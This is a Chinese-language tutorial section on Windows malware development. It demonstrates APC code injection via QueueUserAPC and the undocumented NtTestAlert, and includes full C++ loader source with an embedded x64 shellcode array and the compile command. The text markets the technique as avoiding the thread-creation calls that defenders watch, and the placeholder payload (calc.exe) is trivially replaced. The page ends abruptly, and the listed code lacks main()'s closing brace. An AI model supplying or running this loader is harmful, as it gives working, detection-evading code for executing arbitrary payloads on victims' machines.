








\newpage
\subsection{通过 NtTestAlert 进行 APC 注入：简单的 C++ 恶意软件}

在上一节中，我讲了“Early Bird”APC 注入技术。

{width="80%"}

在这一节中，我将讨论另一种 APC 注入技术。

那么我们就来演示如何借助 Win32 API `QueueUserAPC` 和官方未文档化的原生 API `NtTestAlert`，在本地进程中执行 shellcode。

### NtTestAlert

`NtTestAlert` 是一个与 Windows 警报（alert）机制相关的系统调用。这个系统调用可以触发线程上任何待处理的 APC 被执行。在线程开始执行它的 Win32 起始地址之前，它会调用 `NtTestAlert` 来执行任何待处理的 APC。

### 示例

我们来看看我们恶意软件的 C++ 源代码：

```cpp
/*
hack.cpp
APC code injection via undocumented NtTestAlert
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/20/malware-injection-4.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

int main(int argc, char* argv[]) {
  SIZE_T my_payload_len = sizeof(my_payload);
  HMODULE hNtdll = GetModuleHandleA("ntdll");
  myNtTestAlert testAlert = (myNtTestAlert)(
  GetProcAddress(hNtdll, "NtTestAlert"));

  LPVOID my_payload_mem = VirtualAlloc(NULL, my_payload_len, 
  MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(GetCurrentProcess(), 
  my_payload_mem, my_payload, 
  my_payload_len, NULL);

  PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)
  my_payload_mem;
  QueueUserAPC(
  (PAPCFUNC)apcRoutine, 
  GetCurrentThread(), NULL
  );
  testAlert();

  return 0;

```

为了简单起见，我们用 64 位的 `calc.exe` 作为载荷。

这项技术的流程很简单。首先，我们在本地进程中为载荷分配内存：

{width="80%"}

然后把载荷写入新分配的内存：

{width="80%"}

然后向当前线程排队一个 APC：

{width="80%"}

最后，调用 `NtTestAlert`：

{width="80%"}

我们来编译我们的代码：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
 -I/usr/share/mingw-w64/include/ -s -ffunction-sections \
 -fdata-sections -Wno-write-strings -fno-exceptions \
 -fmerge-all-constants -static-libstdc++ -static-libgcc \
 -fpermissive
```

{width="80%"}

在受害机器上运行（我这里是 Windows 7 x64）：

{width="80%"}

`NtTestAlert` 函数调用并不显得可疑。

{width="80%"}

所以这项技术的优势在于，它不依赖 `CreateThread` 或 `CreateRemoteThread` 这些 API 调用——后者更常见、更可疑，也更会被蓝队人员重点调查。

我希望这一节能让蓝队人员了解这项有趣的技术，并为红队人员的武器库增添一件武器。

它的要点是我们使用了一个未文档化的函数 `NtTestAlert`。

如果我们在 Ghidra 中打开我们的 `hack.exe` 恶意软件：

### 参考资料
